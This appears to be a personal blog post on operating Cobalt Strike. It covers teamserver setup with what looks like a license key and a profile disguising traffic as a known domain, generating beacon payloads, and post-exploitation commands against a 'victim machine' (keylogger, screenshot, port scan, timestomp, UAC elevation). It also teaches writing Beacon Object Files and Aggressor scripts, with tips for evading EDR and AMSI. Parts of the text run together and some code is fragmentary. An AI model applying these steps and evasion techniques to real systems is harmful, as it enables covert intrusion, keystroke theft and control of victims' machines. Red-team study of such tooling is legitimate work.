




Cobalt Strike is not just a single tool but a platform consisting 4 core components:
beacon, stores all the stolen data, manage
all the clients and serves payload to beacon on victim machine.teamserver. Many clients can connect to the server and interact with each other on real
time. For example: One person can Elevate Privileges, The others can extract information.HTTP/HTTPS, DNS, SMB..exe spotanously send encrypted data through a suspicious IP address.
Malleable helps create configs, these configs will put the data inside fake HTML tags, So it will look like just a normal connection.
1. Open jdk 20 or 21
2. Go in Path inside environment table add the openjdk eg: C:\Test\OpenJDK\jdk-21.0.2\bin\
3. add JAVA_HOME is the jdk folder C:\Test\OpenJDK\jdk-21.0.2
4. add JAVA_BIN is the bin folder C:\Test\OpenJDK\jdk-21.0.2\bin
5. run cmd as admin
teamserver.bat [Host-IPaddress] [password] 1359593325 0ce2f55444e4793516b5afe967be9255 intl-cook.iqiyi.com_MDq.profile
run this command to create server
6. run start.bat -> done.
How to create a packages:
first step go to attacks tab Windows Executable(S).
You'll need to create your first listener. Create a name, choose beacon http, the host ip
then port I'll choose 80, save. Then choose your listener. Finally generate a beacon.
When to client open the beacon.exe you should receive connection.


On the host machine right click on the client then choose interact to do some malicious stuff.
for example: screenshot to screenshot client screen.
keylogger [PID] [x64/x86] to log the keystroke.
portscan 192.168.231.0/24 22,445,3389 arp: this command will scan for open ports.this command allows to copy the date modified to paste into another file.
timestomp C:\Users\kingx\Documents\test.txt C:\Windows\System32\cmd.exeFirst you'll need an user that has administrator privilege, by doing
shell net localgroup administrators
to see if the target user has admin priv.
And also you'll need the beacon.exe to run as admin.
Now you can try to paste the token from another trusted process into your beacon.
elevate uac-token-duplication lab_http_port80. // THIS MAKES NO SENSE. Most of the Cobalt Strike Bypass UAC is outdated.
Beacon Object File (BOF): BOF is a compiled C program that hasn't been linked (.o or .obj). Normal compilation links object files with system
libraries to create a .exe file. BOF skips the second step, it only needs the .o file to run. Instead of relying on Windows, the Beacon will acts as the linker in the memory.
- Life span of a BOF. When you execute by inline-execute, Client Cobalt Strike will read .obj from the client. Encrypt
it and then send the BOF through the server right into the RAM of victim machine.
After that Beacon receive the BOF, allocate a hidden memory (read write), then put the code inside.
with the DECLSPEC_IMPORT, Beacon will search inside Windows to find the address of the function and give it to BOF.
When all done Beacon will add the execute Privilege for the memory and call the function go(). Finally when go()
is finished Beacon will free the memory, clean everything.
PowerShell is heavily monitored by AMSI (Antimalware Scan Interface). which scans and logs everything you scripts executed.
C# (execute-assembly): This technique force beacon to create a sacrifical process (notepad or werfault.exe) to
inject C# code inside. The creation of a new process is easy to be spotted.
BOF is Unmanaged Code that runs inline meaning it's not creating any new process.
- Because the memory is inside Beacon itself so if your BOF get buffer overflow, Null Pointer Deference, Forgot to allocate memory,...
The Beacon will crash immediately and lost connection to the victim machine.
We need to use BOF because beacon will use BOF to inject straight into the victim RAM.
It also doesn't create a process, it has a small size so it can be transfer through internet very quickly
Here's a simple list directory command -ls that will list all the files and directories in the given path.
void go(char* buff, int len) {
datap data;
WIN32_FIND_DATAA file_data;
HANDLE file_handle = NULL;
formatp out_buffer;
char* target_dir = NULL;
int length = 0;
BeaconDataParse(&data, buff, len);To get the args from the command line we need to use BeaconDataParse to parse the data to datap struct. We need to extract the data from buf, len.
target_dir = BeaconDataExtract(&data, &length);BeaconDataExtract will extract String from the data to target_dir. BeaconDataInt will extract Integer from the data. The order depends on how we bof_pack the arguments in cna.
int out_size = 0;
BeaconFormatAlloc(&out_buffer, 8192);If we use BeaconPrintf it will sent the a lot data to the teamserver simutaneously. That's easy to be detected.
So we need to use BeaconFormatAlloc to allocate a buffer to store the data. Then put all the print data inside the buffer by using BeaconFormatPrintf.
Finally use BeaconFormatToString to convert the buffer to a string and print it to the teamserver. This method only send one packet to the teamserver.
file_handle = FindFirstFileA(target_dir, &file_data);
if (file_handle == INVALID_HANDLE_VALUE)
{
BeaconPrintf(CALLBACK_ERROR, "FAILED TO FIND FIRST FILE\n");
BeaconFormatFree(&out_buffer);
return;
}
BeaconFormatPrintf(&out_buffer, "---List---\n");
do
{
BeaconFormatPrintf(&out_buffer, "%s\n", file_data.cFileName);
} while (FindNextFileA(file_handle, &file_data) != 0);
char* final_output = BeaconFormatToString(&out_buffer, &out_size);
BeaconPrintf(CALLBACK_OUTPUT, "%s\n", final_output);
FindClose(file_handle);
BeaconFormatFree(&out_buffer);
return;
}
I write some simple codes about how to change, list, remove, create file and directory. It's basically the same in C. The only differences are you have to resolve the functions because BOF doesn't have a linker.
But remember to declare APIs you are using or it won't work.
DECLSPEC_IMPORT BOOL WINAPI KERNEL32$CloseHandle(HANDLE);Here's how to declare one. I made a macro for shorter call:
#define CloseHandle KERNEL32$CloseHandle
The rest will be the same, also don't forget the dll: KERNEL32$. You can check FunctionFinder to find which dll is this API in.
Here's a more advanced go() function that supports multiple modes (ls, cd, mkdir, rm, etc.) dispatched from a single entry point.
void go(char* buff, int len) {
datap data;
int length = 0;
char curr_dir[MAX_PATH];
BeaconDataParse(&data, buff, len);
char* mode = BeaconDataExtract(&data, &length);
GetCurrentDirectoryA(MAX_PATH, curr_dir);
BeaconPrintf(CALLBACK_OUTPUT, "Current Directory: %s\n", curr_dir);
if (strcmp(mode, "ls") == 0) {
execute_ls(&data);
}
...
}
mode is the first extracted argument and controls which sub-function gets called. GetCurrentDirectoryA prints the current working directory before dispatching.
void execute_ls(datap* req_data) {
char* target_dir = BeaconDataExtract(req_data, &length);
BeaconFormatAlloc(&out_buffer, 8192);
file_handle = FindFirstFileA(target_dir, &file_data);
else {
BeaconFormatPrintf(&out_buffer, "---List---\n");
do {
BeaconFormatPrintf(&out_buffer, "%s\n", file_data.cFileName);
} while (FindNextFileA(file_handle, &file_data) != 0);
}
char* final_output = BeaconFormatToString(&out_buffer, &out_size);
BeaconFormatFree(&out_buffer);
}
#$0 is the source command. eg: "-ls C:\Windows"
#$1 BeaconID: is beacon ID
#$2 the first argument "C:\Windows"
#$3 #$4 is the second, third...
alias -ls {
local('$barch $handle $data $args');
}declarations: $ is a variable and @ is an array.
if (size(@_) != 2) {
berror($1, "How to use: -ls [path]");
return;
}Checks if input is valid.
$barch = barch($1);
$handle = openf(script_resource("BOF2. $+ $barch $+ .obj"));
$data = readb($handle, -1);
closef($handle);
$barch: checks victim machine architecture (x86 or x64)$handle = openf(...): open file using the arch$data = readb(...): read whole file into $data (-1 = all means read until EOF. If you put in 100 it will read the first 100 bytes)closef($handle): close the handlescript_resource(): returns the full path from our cna script — it connects our file with the path. eg: $bof_path = "C:\Users\KingX\Documents\Test\BOF2.x86.obj"$args = bof_pack($1, "z", $2);
"Z" is Wide String (UTF-16). The string will be added '\0' in the end. Very important because many Win32 APIs require wide string (e.g. L"C:\\Windows"). Extracts to: wchar_t* wstr = (wchar_t*)BeaconDataExtract(&parser, &len)z = string (UTF-8), i = integer, s = short, b = binary. You will need to provide an empty int to catch the string length.bof_pack will take arguments from your command line but you need to write the type of the arguments in order.bof_pack($bid, "zzz", $mode, $target_dir, $file_type) means pack three strings in order.mode = BeaconDataInt(&data);target_dir = BeaconDataExtract(&data, &length);type = BeaconDataExtract(&data, &length);btask($1, "Sending to Beacon...");
beacon_inline_execute($1, $data, "go", $args);
beacon_inline_execute will execute the payload$1 is the ID of the beacon$data is our BOF.obj filego is the entry point$args is the arguments just loaded, will get pushed into char* args inside go() functionRWX (Read-Write-Execute) at the same time. EDRs will catch you. Always allocate RW (Read-Write) → Copy code → VirtualProtect to RX (Read-Execute) → Run.
sub is subroutine, it's kinda similar to a normal function.
Local('$mode, $target_dir, ..) — this is how you declare variables. $ is for the variable, @ is for array. To dereference an array: @example[0], similar to other languages.
There are 3 comparison types:
==; <; >=; ... — This is for numberseq; ne — equal and not equal. This is for strings.iswm — Is Wildcard Matching. This is pattern matching, it finds a string inside a larger string.
* represents any string, ? represents 1 character.if ("*[abc]*" iswm $out) — finds [abc] anywhere in the string."*[abc]" — this means [abc] is at the end of the string.
(alias) Eg: -zaza ls "*"
$0: "-zaza ls "*" is the whole command.$1: Beacon ID$2: "ls" the first argument.$3: "*" is the second argument
(subroutine) Eg: execute_zaza($1, $mode, $target_dir, $file_type);
$1: $bid$2: "ls" first argument.$3: "*" second argument.$4: "file_type" third argument.
(on) Eg: on beacon_output
$1: BID$2: The string output from beacon.
on beacon_output is an event function. Every time beacon outputs something it will execute this code section.
on beacon_output {
local('$bid $out');
$bid = $1;
$out = $2;
if ("*[-zaza]*" !iswm $out) {
return;
}
Why we don't use eq or ==: because eq and == require an exact string. "*[-zaza]*" uses * to match everything before and after [-zaza]. You can also do "*[-zaza] ?*" iswm $out — the ? will represent 1 character. So if the beacon_output doesn't contain [-zaza] it will return the function.
if ("*[-zaza] -1*" iswm $out) {
berror($bid, "BOF failed (returned -1). Check path or permissions.");
return;
}
The beacon print [-zaza] -1 means the BOF failed.
if ("*[-zaza] 1*" iswm $out) {
blog($bid, "BOF succeeded! Listing...");
execute_zaza($bid, "ls", "*");
return;
}
}
If the beacon prints [-zaza] 1 it means the BOF succeeded. It will call execute_zaza.
bind Ctrl+Shift+Z {
binput($1, "shell whoami /priv");
}
bind lets you create a keyboard shortcut. Ctrl + Shift + Z will run shell whoami /priv as a beacon command.
&code = lambda(&code_section, &new_var = &old_var);
lambda() is used to create a closure — it captures a reference to an existing variable into a new variable name inside the code section.
To use the CNA you'll need to load it. By going to scripts tab and click on load.

Here's the test result:

That's it for today see you in the next blog. For more details you can check the Source CNA.